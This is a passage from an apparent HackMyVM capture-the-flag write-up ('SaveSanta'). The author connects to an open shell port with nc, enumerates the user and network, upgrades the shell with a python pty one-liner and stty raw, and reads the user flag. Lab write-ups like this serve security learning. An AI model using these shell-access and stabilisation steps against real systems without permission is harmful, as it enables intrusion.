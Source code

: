 ```bash
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ nc $ip 59025
whoami
alabaster
id 
uid=1001(alabaster) gid=1001(alabaster) groups=1001(alabaster),100(users)
hostname
santa
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:99:cd:c7 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.39/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 382sec preferred_lft 382sec
    inet6 fe80::a00:27ff:fe99:cdc7/64 scope link 
       valid_lft forever preferred_lft forever
```
Let's upgrade our shell first.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
alabaster@santa:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
alabaster@santa:~$ export TERM=xterm-256color  
export TERM=xterm-256color  
alabaster@santa:~$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
alabaster@santa:~$ ^Z
zsh: suspended  nc $ip 59025
                                                                                                                   
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  nc $ip 59025

alabaster@santa:~$ stty columns 200 rows 200
alabaster@santa:~$ 

```
Let's find out what is present in the current working directory.
```bash
alabaster@santa:~$ ls
user.txt
```
Time to capture the user's flag.
```bash
alabaster@santa:~$ cat user.txt 
                 ..'''::::...
              .::'      `'''':::..
        '...::'               `.----.
                              /_.--._\
                            ,  |=   |
                          ,/ \,|  =-|
                        ,/ /`\ \,   |
                      ,/ /`___`\ \,-|
                    ,/ /'.-:";-.`\ \|
                  ,/ /` //_|_|_\\ `\ \, ,/\,
                ,/ /`   ||_|_|_||   `\;/ /\ \,
              ,/ /`     ||_|_|_||   ,/ /`/\`\ \,
```